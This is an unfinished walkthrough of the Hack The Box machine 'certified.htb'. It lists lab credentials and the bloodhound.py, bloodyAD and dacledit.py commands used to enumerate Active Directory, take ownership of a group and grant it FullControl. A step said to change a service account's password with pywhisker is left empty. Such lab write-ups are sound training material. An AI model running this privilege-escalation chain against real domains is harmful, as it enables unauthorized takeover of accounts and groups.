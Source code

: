 
initaial access with given user: 

```
judith.mader:judith09
```

## Run Bloodhound

```
bloodhound.py -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc dc01.certified.htb -ns 10.129.73.100 -c all
```

Import data to bloodhound

Judith has writeonwer rights on group "Management"
there for we can add judith as the owner of this group. 

this can be done with bloodyAD

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

now we are owner of the group. we can add judith into to groub give her full control rights and then change the password for "management_svc"

```
KRB5CCNAME=judith.mader.ccache dacledit.py -k -no-pass -dc-ip 10.129.73.100 -principal judith.mader -target Management -action write -rights FullControl certified.htb/judith.mader
```

### add j

with the following command we can change the password for management_svc

this is done via pywhisker

```
```